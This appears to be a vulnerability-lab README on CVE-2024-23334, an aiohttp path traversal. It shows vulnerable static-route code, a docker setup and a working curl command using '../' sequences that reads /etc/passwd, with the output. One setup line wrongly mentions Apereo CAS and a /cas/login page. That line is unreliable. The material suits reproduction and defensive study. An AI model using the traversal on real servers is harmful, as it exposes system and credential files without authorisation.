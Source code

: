 # CVE-2024-23334 Path Traversal

[中文版本(Chinese version)](README.zh-cn.md)

aiohttp is an asynchronous HTTP client/server framework for asyncio and Python. When using aiohttp as a web server and
configuring static routes, it is necessary to specify the root path for static files. Additionally, the option '
follow_symlinks' can be used to determine whether to follow symbolic links outside the static root directory. When '
follow_symlinks' is set to True, there is no validation to check if reading a file is within the root directory. This
can lead to directory traversal vulnerabilities, resulting in unauthorized access to arbitrary files on the system, even
when symlinks are not present. Disabling follow_symlinks and using a reverse proxy are encouraged mitigations. Version
3.9.2 fixes this issue.
Reference:

- https://github.com/aio-libs/aiohttp/commit/1c335944d6a8b1298baf179b7c0b3069f10c514b
- https://github.com/aio-libs/aiohttp/pull/8079
- https://github.com/aio-libs/aiohttp/security/advisories/GHSA-5h86-8mv2-jq9f
- https://lists.fedoraproject.org/archives/list/package-announce@lists.fedoraproject.org/message/ICUOCFGTB25WUT336BZ4UNYLSZOUVKBD/
- https://lists.fedoraproject.org/archives/list/package-announce@lists.fedoraproject.org/message/XXWVZIVAYWEBHNRIILZVB3R3SDQNNAA7/

## Environment Setup

- Vulnerable code

```python
# examples/server_simple.py
from aiohttp import web

app = web.Application()
app.router.add_routes([
    web.static("/static", "static/", follow_symlinks=True),  # Remove follow_symlinks to avoid the vulnerability
])

if __name__ == '__main__':
    web.run_app(app)

# 访问 https://www.jetbrains.com/help/pycharm/ 获取 PyCharm 帮助

```

Execute following commands to start an aiohttp:3.9.1 ：

```
docker compose up -d
```

After the Apereo CAS is started, visiting `http://your-ip:8080/cas/login` to see the login page.

## Exploit

```bash
➜  CVE-2024-23334 git:(master) ✗ curl --path-as-is http://172.17.0.2:8080/static/../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin

```

